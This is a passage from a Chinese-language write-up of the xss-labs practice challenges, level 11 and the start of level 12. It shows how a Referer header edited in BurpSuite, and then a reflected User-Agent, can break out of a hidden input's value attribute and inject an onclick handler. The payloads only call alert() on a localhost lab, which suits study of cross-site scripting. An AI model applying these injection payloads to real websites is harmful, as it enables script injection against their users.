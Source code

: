 我们先来验证前 3 个 <input> 标签是否存在可注入的疑点，发送 Get 请求：`http://localhost/xss-labs/level11.php?t_link=<script>alert('hi')</script>&t_history=<script>alert('hi')</script>&t_sort=<script>alert('hi')</script>`，然后发现第 3 个 <input> 标签中的 value 值被 HTML 实体化了，尽管发现其中单引号（`'`）没有被 HTML 实体化，**但是单引号在这里没办法闭合前面的双引号**，所以总的来说这 3 个 <input> 标签没有 XSS 注入点！

```html
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="&lt;script&gt;alert('hi')&lt;/script&gt;" type="hidden">
```

所以我们重新回到开头，分析下述 html 代码，是否可以通过 BurpSuite 拦截 `http://localhost/xss-labs/level10.php?t_sort=%22%20onclick=%22alert()%22%20type=%22`，然后将其修改成 `" onclick="alert()" type="` （**盲猜下述 value 属性内容不会被转换成 HTML 实体，也不存在关键字替换等骚操作**）呢？我想说可以试试的！！！

```html
<input name="t_ref"  value="http://localhost/xss-labs/level10.php?t_sort=%22%20onclick=%22alert()%22%20type=%22" type="hidden">
```

Let's do it！！！在 BurpSuite 中拦截第 10 关的通关 payload（即下述 Referer 的值），然后将其修改成：`" onclick="alert()" type="` .

```js
// 修改前的结果：
Referer: http://localhost/xss-labs/level10.php?t_sort=%22%20onclick=%22alert()%22%20type=%22
// 修改后的结果：
// 第 1 个双引号用于闭合 value 属性的第一个双引号，即构成 value=""
// 最后 1 个双引号用于闭合 value 属性的最后一个双引号，即构成 type=""，进而令后面的 type="hidden" 失效，使 input 输入框显示在页面中，为最后点击输入框导致弹窗做准备！
Referer: " onclick="alert()" type="
```

然后右击查看源代码，发现成功注入！！！🎉

```html
<input name="t_ref"  value="" onclick="alert()" type="" type="hidden">
```



## 第 12 关：标签属性闭合 + 注入事件属性

发送 Get 请求：`http://localhost/xss-labs/level12.php?keyword=<script>alert('hi')</script>`，然后右击查看网页源代码，发现输入框 <h2> 标签里面的内容被 HTML 实体化了，但是但是但是会发现单引号`'`没有被实体化！（但是这里依旧无法利用此漏洞来进行闭合绕过，因为没有可闭合的点），然后页面源代码中还有 4 个奇奇怪怪的被隐藏的 <input> 标签！其中前 3 个和上关及上上关一样，**第 4 个惊奇地发现其 value 值是 User-Agent ！！！**

```html
<h2 align=center>没有找到和&lt;script&gt;alert('hi')&lt;/script&gt;相关的结果.</h2><center>

<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
  
<input name="t_ua"  value="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36" type="hidden">
```
